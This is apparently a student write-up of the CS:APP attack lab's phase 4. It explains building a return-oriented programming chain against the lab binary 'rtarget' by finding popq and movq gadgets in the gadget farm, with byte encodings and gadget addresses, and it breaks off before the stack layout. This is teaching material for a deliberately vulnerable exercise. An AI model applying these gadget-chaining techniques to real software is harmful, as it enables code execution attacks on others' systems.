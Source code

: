 For instance:

```c++
void setval_210(unsigned *p)
{
*p = 3347663060U;
}
// compiling...
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
```

`48 89 c7` is `movq %rax, %rdi` and `c3` is `retq`

So if we starts from `400f18`, it's like we are executing

```c
movq %rax, %rdi
retq
```

### phase_4

This phase requires us to repeat the attack of phase_2, but using `Rtarget`.

we can only use instructions of `movq` `popq` `ret` `nop` and the first eight x86-64 registers (`%rax–%rdi`).

Recall the phase_2, we need to realize:

1. move cookie to `$rdi`
2. execute `touch2`

Firstly `objdump -d rtarget > rtarget.asm` to see what gadgets we can make use of.

If we can find gadgets like `popq %rdi`(5f), that could be quite easy, but we can't find one in farm.

So we decide to use `58（popq %rax)`, the instrcutions are:

```c
popq %rax               // 58
ret                     // c3
moveq %rax, %rdi        // 48 89 c7
ret                     // c3
```

The gadgets we use are:

```c++
00000000004019ca <getval_280>:
  4019ca:  b8 29 58 90 c3         mov    $0xc3905829,%eax
  4019cf:  c3                     retq
00000000004019a0 <addval_273>:
  4019a0:  8d 87 48 89 c7 c3      lea    -0x3c3876b8(%rdi),%eax
  4019a6:  c3                     retq   
```

The stack is like:
